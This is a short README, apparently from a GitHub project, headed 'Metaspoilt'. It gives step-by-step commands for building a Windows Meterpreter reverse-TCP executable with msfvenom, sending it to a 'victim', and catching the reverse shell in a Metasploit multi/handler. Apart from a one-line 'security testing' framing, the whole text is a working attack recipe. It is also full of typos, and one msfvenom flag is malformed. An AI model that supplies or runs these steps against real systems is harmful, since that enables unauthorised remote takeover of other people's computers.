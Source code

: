 # Metaspoilt
	Test the System Security of Windows 7  by using Metasploit Tool

# Creating payload for WIN 7x86 (32-bit)
	1. Open Kali Terminal.
		# apt-get update && apt-get update
	2. Creating PAYLOAD :
		# msfvenom p windows/meterpreter/reverse_tcp lhost=192.168.xxx.xxx -f exe -o <filename>.exe
	3. Send thi shell to victims' mchine.
	4. Run thr *.exe file.
# Reverse shell :
	1. Open Kali Teminal.
		# msfconsole
		msf6 > use multi/handler
		msf6 explloit (multi handler) > set payload windows/meterpreter/reverse_tcp
		msf6 explloit (multi handler) > set lhost 192.168.xxx.xxx
		msf6 explloit (multi handler) >exploit
	
# Huraah !! we did it : )
